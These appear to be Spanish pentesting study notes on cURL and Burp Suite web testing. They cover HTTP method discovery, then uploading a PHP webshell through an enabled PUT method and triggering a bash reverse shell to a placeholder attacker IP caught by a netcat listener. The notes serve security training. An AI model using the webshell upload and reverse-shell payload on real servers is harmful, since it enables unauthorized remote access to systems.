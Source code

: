 # cURL y Testing de Aplicaciones Web

---

## 1. Comandos básicos con cURL

```bash
curl -v http://dominio.com
```
- `-v` → modo verbose (muestra detalles de la petición/respuesta).  

```bash
curl -I http://dominio.com
```
- `-I` → solo devuelve **cabeceras de respuesta**.  

```bash
curl -v -I http://dominio.com
```
- Combina verbose + cabeceras.  

```bash
curl -v -X GET http://dominio.com
curl -v -X PUT http://dominio.com
```
- `-X` → permite elegir el método HTTP a usar (GET, POST, PUT, DELETE, OPTIONS…).  

---

## 2. Testing con BurpSuite
1. Intercepta una petición normal (ejemplo: `GET /uploads`).  
2. Cambia el método manualmente en la parte superior:  
   - De: `GET /uploads HTTP/1.1`  
   - A: `OPTIONS /uploads HTTP/1.1`  
3. Esto permite descubrir métodos habilitados en ese endpoint (ej: `PUT, DELETE, PROPFIND`).  

---

## 3. Subir archivos con cURL
Si `PUT` está habilitado en `/uploads/`:
```bash
curl -v -X PUT http://<IP>/uploads/shell.php --upload-file /usr/share/webshells/php/simple-backdoor.php
```

- Esto intenta subir la **webshell PHP** al directorio `/uploads`.  
- Luego accede vía navegador:  
  ```
  http://<IP>/uploads/shell.php
  ```

---

## 4. Reverse Shell con la webshell
1. En tu máquina atacante, escucha con netcat:
```bash
nc -lvp 4444
```

2. Accede a la webshell y ejecuta un comando reverse shell, por ejemplo en PHP:
```php
<?php system("bash -c 'bash -i >& /dev/tcp/<IP_atacante>/4444 0>&1'"); ?>
```

3. Cuando visites la URL de la shell, la conexión se abrirá hacia tu netcat:
```
http://<IP>/uploads/shell.php
```

---

## 5. Flujo completo
1. Descubrir métodos disponibles (Burp o cURL con `-X OPTIONS`).  
2. Ver si `PUT` está permitido en `/uploads`.  
3. Subir archivo PHP malicioso con cURL.  
4. Acceder al archivo desde el navegador.  
5. Ejecutar payload de reverse shell.  
6. Recibir conexión en netcat (`nc -lvp 4444`).  

---

## Resumen rápido de comandos
```bash
curl -v http://dominio.com
curl -I http://dominio.com
curl -v -X OPTIONS http://dominio.com/uploads
curl -v -X PUT http://IP/uploads/shell.php --upload-file shell.php
nc -lvp 4444
```
